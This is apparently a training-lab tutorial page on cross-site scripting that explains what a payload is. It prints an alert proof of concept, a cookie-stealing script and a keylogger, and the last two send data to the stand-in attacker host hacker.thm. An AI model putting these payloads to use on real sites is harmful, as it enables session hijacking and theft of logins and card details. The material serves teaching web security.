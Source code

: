 

What does XSS stand for?
Cross-site Scripting

---
Task 2  XSS Payloads
---

### What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.



The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).



Here are some examples of XSS intentions.



###  Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:


```
<script>alert('XSS');</script>
```


### Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```


### Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.


```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

```
